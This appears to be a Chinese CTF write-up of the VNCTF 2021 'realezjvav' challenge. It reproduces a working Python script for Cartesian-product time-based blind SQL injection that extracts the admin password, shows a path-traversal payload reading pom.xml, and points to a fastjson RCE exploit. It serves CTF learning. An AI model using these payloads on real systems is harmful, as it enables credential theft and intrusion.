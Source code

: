         }
    }

## [VNCTF 2021]realezjvav
WP说笛卡尔积盲注 我偏不信 试了下别的方法 都不行 好吧 wsfw
其实在注释里已经写了both  username and password are right , then you can enter the next level
所以不能admin\这种。同时sleep benchmark都被过滤 而且没有回显 必须盲注 只能笛卡尔积试试了。
原理：
SELECT count(*) FROM information_schema.columns A,information_schema.columns B,information_schema.columns C;
根据数据库查询的特点，这句话的意思就是将 A B C 三个表进行笛卡尔积（全排列），并输出 最终的行数，执行效果如下：
执行效果是跑了十分钟都没跑出来 网上看了应该是 count(*) 六千多万
光一个表的话是三千多 一下子就能出来。
那么利用原理就是根据回显速度注入 和时间盲注一个原理(当然回显速度需要对payload进行调整)
官方exp:
    import requests
    import time
    url = "http://cacbd0a9-16f5-497b-8346-dae9d466ddb4.node3.buuoj.cn/user/login"
    i = 0
    flag = ""
    while True :
        i += 1
        head = 32
        tail = 126
        while head < tail :
            mid = head + tail >> 1
            payload = "a' or (if(ascii(substr(password,%d,1))>%d,(SELECT/**/count(*)/**/FROM/**/information_schema.tables/**/A,information_schema.columns/**/B,information_schema.tables/**/C),1))#" % (i,mid)
            data = {"username":"admin" , "password" : payload}
            start_time = time.time()
            r = requests.post(url,data = data)
            print(data['password'])
            end_time = time.time()
            if end_time - start_time > 3:
                head = mid + 1
            else :
                tail = mid
        if head!=32:
            flag += chr(head)
            print(flag)
        else:
            break
注的很慢 因为那语句大概要执行6秒钟
密码no_0ne_kn0w_th1s
进去是创建角色，查看图片路径：http://cacbd0a9-16f5-497b-8346-dae9d466ddb4.node3.buuoj.cn/searchimage?img=2.png
怀疑存在任意文件读取，但是我不知道要读什么 自己随便试了一下：../../../../../../web.xml
不行，查看wp：searchimage?img=../../../../../pom.xml
？说是Spring里面pom.xml放了外部依赖，麻了。
看到fastjson
    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.27</version>
    </dependency>
rce：https://github.com/CaijiOrz/fastjson-1.2.47-RCE；https://y4tacker.blog.csdn.net/article/details/114949206
flag_no_one_know_abccba.txt
复现还算简单。